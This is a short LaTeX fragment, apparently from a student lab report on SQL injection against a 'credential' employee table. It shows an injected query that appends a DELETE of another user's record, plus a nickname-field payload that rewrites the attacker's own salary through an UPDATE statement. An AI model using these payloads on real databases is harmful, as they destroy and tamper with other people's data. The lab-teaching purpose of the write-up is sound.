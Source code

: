 \documentclass[a4paper,11pt]{article}
\begin{document}
\begin{lstlisting}[caption={SQL Injection for delete Record},label={lst:task14.3},language=SQL,breaklines=true]
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password 
FROM credential
WHERE name='admin';delete from credential WHERE name='Ted' #'and Password='123'
\end{lstlisting}
\begin{figure}[h]
    \centering
       \includegraphics[width=0.82\textwidth]{figures/task14/task14.4.png}
    \caption{SQL Append Attack Result}\label{fig:task14.4}
\end{figure}

\subsection{SQL Injection Attack on UPDATE Statement}
\subsubsection{Sub-task 1: Modify your own salary}
As shown in Figure \ref{fig:task15.1}, we can use the following SQL Injection \verb|A', Salary='33333| shown in \ref{fig:task15.2} to modify the salary of the user, beacuse the UPDATE SQL Query will become 

\verb|UPDATE credential SET nickname='A', Salary='33333',...|, 
\end{document}
